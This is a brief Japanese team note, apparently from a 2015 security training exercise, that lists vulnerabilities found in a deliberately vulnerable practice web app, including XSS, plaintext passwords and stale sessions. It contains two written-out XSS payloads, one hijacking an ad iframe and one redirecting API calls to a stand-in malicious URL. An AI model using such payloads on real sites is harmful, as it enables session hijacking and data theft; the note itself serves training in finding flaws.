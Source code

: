 #発見した脆弱性

2015/04/11
チーム５
酒巻、安本（学生）、飯島、上野、八尾

1. 全員のユーザID、ユーザ名、そのユーザが管理者かどうかも分かる。
2. 管理ユーザとして登録できて、他者のパスワードを変更できてしまう。
3. テスト画面が見れてしまう。
http://day1.vi9tim.website:8080/static/test.html
4. ボイスにクロスサイトスクリプティングが埋め込める。トークンが分かる。
5. 画像のURLが連番なので番号を増減させると他のが取れる
http://day0.vi9tim.website:8080/phots/00000174.jpg
6. iframeを書き換える
<img src="" onerror="document.getElementById('adFrame').srcdoc = '<div>広告が乗っ取られました。</div>'" />

参考図書（酒巻さんより）
「Bug Hunt」 基礎的なXXS の攻撃方法 

15:00 ヒントタイム
1. Webコンポーネンツを使った脆弱性がChromeにある。スクリプトを埋め込んだHTMLを実行できてしまう。

18:00 チーム発表
1. EXIFのMAKEタグにスクリプトを埋め込むと実行できてしまう。
2. パスワードが平文で保存されている。
3. ログアウトしてもサーバ側のセッションが残っていて、適当なトークンで再ログインできてしまう。
4. XSSで永続的にAPIサーバになりすませる。ローカルストレージに悪サイトのURLがずっと残っている。
<img src=0 onerror="javascript:window.localstorage.server='http://waruicom/'"


